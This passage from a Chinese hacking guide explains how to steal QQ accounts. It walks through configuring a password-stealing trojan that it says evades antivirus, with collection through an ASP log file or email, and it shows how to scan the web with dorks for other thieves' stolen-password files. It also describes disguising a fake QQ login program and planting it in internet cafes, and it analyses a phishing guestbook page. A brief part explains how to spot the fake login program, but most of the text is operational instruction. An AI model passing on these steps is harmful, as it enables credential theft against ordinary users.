我们以阿童木QQ终结者来为大家介绍一下QQ木马的相关配置。阿童木QQ终结者能够截取目前所有QQ版本的密码，隐式注入，没有进程，可以穿过防火墙，在安全模式下也能够启动，而且这款木马的体积很小，发信速度也很快。首次运行木马时会让瑞星和卡巴斯基短暂失效，可以躲过瑞星的注册表监控和卡巴斯基的行为监控，并且能够截取QQ账号、QQ密码、会员、IP地理位置、IP地址等信息。

阿童木QQ终结者提供空间收信与邮箱收信两种方式。如果使用空间收信方式，则需要使用记事本打开QQ2007.asp，把 `strLogFile="QQ2007.txt"` 中默认的QQ2007.txt修改为你想要的文件名，如图1.16。这个文件就是接收账号和密码的文件，为了不至于让别人轻易获取到这个文件，修改为一个别人猜不到的文件名是极为必要的。修改好后将QQ2007.asp上传到你的ASP空间里即可，以后只需要通过这个文件查看其中记录的QQ号和密码就可以了。

对于没有空间的朋友来说，最常使用的就是邮箱收信方式了，我们来看看使用邮箱收信的一些基本设置。“收信邮箱”就是用于接收盗取的QQ号和密码的邮箱，而“发信邮箱”是用于发信的邮箱，这两个邮箱最好不要使用相同的。“账号”和“密码”栏填写用于发信的邮箱的账号和密码。SMTP服务器则填写你使用的邮箱的SMTP服务器，如图1.17。一般常用的SMTP服务器如下。

| 邮箱 | POP服务器 | SMTP服务器 |
|---|---|---|
| 网易@163.com邮箱 | pop.163.com | smtp.163.com |
| 网易@yeah.net邮箱 | pop.yeah.net | smtp.yeah.net |
| 网易@netease.com邮箱 | pop.netease.com | smtp.netease.com |
| 网易@126.com邮箱 | pop3.126.com | smtp.126.com |
| 搜狐@sohu.com | pop3.sohu.com | smtp.sohu.com |
| 亿邮@eyou.com | pop3.eyou.com | mx.eyou.com |
| TOM@tom.com | pop.tom.com | smtp.tom.com |
| 亿唐@etang.com | pop.free.etang.com | smtp.free.etang.com |
| 21世纪@21cn.com | pop.21cn.com | smtp.21cn.com |

设置完成后，可以使用“发信测试”功能来检验一下配置的正确性。如果我们设置的邮箱里成功收到了测试邮件，那么就一切配置成功了，如图1.18。最后一步，点击“生成木马”就会生成木马的服务端程序，只要别人运行了这个木马服务端程序，他的QQ和密码就是你的了！



图1.16



图1.17



图1.18

#### 1.2.2 螳螂捕蝉，木马在后

通过对QQ木马的了解，我们知道，QQ木马如果使用网页收信方式的话都会有默认的存储盗取的QQ账号密码的文件，正是利用这点，我们使用挖掘机就可以从网上扫描获取敏感信息，从而挖出QQ箱子。



图1.19

比较常见的QQ木马默认的存储文件有：log.txt、jinhuqq.txt、jinhuqq2007.txt、qq.txt、qqpass.txt、tmdqq.asp、qq.asp等。我们打开挖掘机V1.1（此版本搜索速度比较快），在“URL后缀”选项中添加QQ木马默认的收信文件名，如图1.19。在“关键词”栏添加搜索关键词，可以添加“inurl:qq.txt”，这样程序就会搜索URL中的qq.txt链接。“超时”和“线程数”保持默认即可。

点击“开始”按钮，程序就会自动扫描URL了。通过“检测进程”我们可以监视程序的扫描情况，如图1.20。如果扫描到目标的话，就会显示在“检测结果”中，如图1.21，并且程序底部也会显示“有效链接”的数目。

经过漫长的等待，程序已经搜索出好多个有效的地址了，我们切换到“检测结果”，双击一个URL链接就会将其打开，看吧，有不少的QQ账号和密码哟，如图1.22！

除了使用工具外，我们也可以直接利用搜索页面以“inurl:qq.txt”“inurl:jinhuqq.txt”等作为关键字来进行搜索，同样也能够找到许多结果的，如图1.23，但这样找到的数目和质量上都不及使用工具的好。



图1.20



图1.21

#### 1.2.3 梧桐QQ欺骗登录器

利用传统的QQ木马来盗号在网上已经是非常流行的了，除了传统的QQ盗号木马外，目前又出现了欺骗登录盗号的新


图1.22



图1.23

## 第二章 QQ攻防跟我来

方法。接下来我就为大家演示一下如何使用QQ欺骗登录器来盗取QQ号码。

梧桐QQ欺骗登录器有两个程序，一个为 dqq.exe，另一个为 配置.exe。我们先打开 配置.exe，如图1.24，“服务器”使用默认的不用修改（其它邮箱不保证收信成功），“用户名”可以填写你的QQ号码，“密码”就填写此QQ号码的密码。端口默认使用的是25，不需要修改。“发向”为接收密码的邮箱地址，可以填写你的QQ邮箱，比如 383605010@qq.com，要填写全称，要不然密码可就飞了（注意：这个QQ邮箱与上面的QQ并非同一QQ）。对于下边的是否杀死QQ.exe选项，可以随便选择，最后按“OK”按钮就可以完成配置工作了。



图1.24



图1.25

配置成功后，我们进入刚才填写的QQ邮箱，来启用POP3/SMTP服务，如图1.25。选择“设置”，然后选择开启POP3/SMTP服务，这样才能完成邮件的发送与接收，如图1.26。设置完成后保存更改就可以了！



图1.26

我们再来看看先前提到的 dqq.exe，在它的图标上按鼠标右键，选择创建快捷方式，然后把这个图标改名为腾讯QQ。现在知道我们要做什么了吧，就是使用这个假的登录器来替代真正的登录程序。看，和原版的QQ登录程序没什么两样吧，如图1.27。该欺骗程序的巧妙设计就在于此，我们在这里填写QQ号码，和密码，依然能够正常登录真正的QQ，没有什么异常。但此时也已经神不知鬼不觉地把此用户的号码连同密码发到我们刚才设置的邮箱里了，如图1.28。



图1.27



图1.28

如果我们把此程序放在网吧等公共场所（dqq.exe、wtqq.ini 和 配置.exe 要存放在同一目录下才能正常运行），那每天不知道会有多少QQ用户上当呢！真是可怕啊！试问你还敢在网吧登录QQ吗？

其实这个QQ欺骗登录也不是完全无法发现的，如果细心的话我们就会发现：登录界面上的“高级设置”点了后没有任何反应，另外登录界面与真实的QQ登录界面还是有一点点的区别。而且通过查找目标，找到的目录不是QQ的安装目录。至于破解的方法，就是直接找到QQ的安装目录，从安装目录中直接运行QQ的登录程序来登录。

### 1.3 轻松QQ钓鱼

#### 1.3.1 留言页面也“钓鱼”

相信许多朋友在QQ的聊天群里都曾经见过类似如下的信息。



图1.29

祝QQ成立十周年，现在登录 http://hk.geocities.yahoo.com/gb/sign?member=hbhbhb52 即可免费领取20QQ币的奖励！有许多网络安全意识不高的读者可能都会信以为真，或是禁不住那20个Q币的诱惑。当他们点击登录后就会发现，这是一个构造极其简单的页面，并且要求输入QQ帐号和密码。或许他们从来没有想过这个问题，既然是免费赠送QQ币，输入QQ号就行了，为什么还要输入密码呢？很明显这就是一个盗取QQ密码的陷阱。我们就通过这一具体的事例为大家分析一下留言钓鱼网站。

点击登录该网站，仔细看看，上边还有一个Yahoo的广告，再看看域名，竟然是Yahoo的，后面还有一个“=hbhbhb52”，如图1.29。先不管这些，随便填写一个帐号看看，点击“确认”，当我们看到“已经将留言传送至访客名册。”的时候就会恍然大悟，这原来是一个访客名册，也就是一个填写留言的地方，我们刚才填写的帐号内容，已经被当作留言发送给了盗号者，如图1.30。


图1.30

点击中间的“加入Yahoo! GeoCities”看一下，出现了一个英文的网页，在页面右边是一个使用Yahoo帐号登录的界面，如图1.31。如果没有Yahoo帐号的话，可以点击下面的“Sign Up”申请一个。

